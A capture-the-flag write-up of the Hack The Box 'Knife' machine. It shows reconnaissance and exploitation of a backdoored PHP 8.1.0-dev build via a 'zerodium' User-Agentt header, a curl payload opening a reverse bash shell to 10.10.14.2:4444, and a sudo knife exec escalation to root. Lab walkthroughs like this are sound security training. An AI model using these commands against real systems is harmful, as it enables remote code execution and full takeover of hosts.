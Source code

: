 ```yaml
---
layout: post
title: HTB Machine - Knife
subtitle: Writeup
cover-img: /assets/img/Scifi.1920x1080.jpg
thumbnail-img: /assets/img/Scifi.1920x1080.jpg
share-img: /assets/img/Scifi.1920x1080.jpg
tags: [ HTB, Hack the Box]
---
```


##### 2 ports are open:22 and 80. Webpage is static no interesting stuff.  

```bash
whatweb http://10.10.10.242
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]

Ubuntu Focal.
```
##### there is vuln on the PHP/8.1.0-dev. The user-agent can be modified to execute code. 

https://www.exploit-db.com/exploits/49933

##### there is a python script (in exploit folder) but basically the line with zerodium is the culprit. It can be done with curl too

##### poc 
```bash
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('id');" | html2text
```
##### exploit
```bash
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('bash -c \"bash -i >& /dev/tcp/10.10.14.2/4444 0>&1\"');" | html2text
```

##### set a netcat and gain access to the machine. Set terminal to taste. check release
```bash
lsb_release -a
```

##### no access to /root folder. id shows we are not in a priviledge group. sudo -l says that we can execute knife as a root without pass. Go to gtfobins to see if soemthing comes up with knife and it does. 
```bash
sudo knife exec -E 'exec "/bin/sh"'
``` 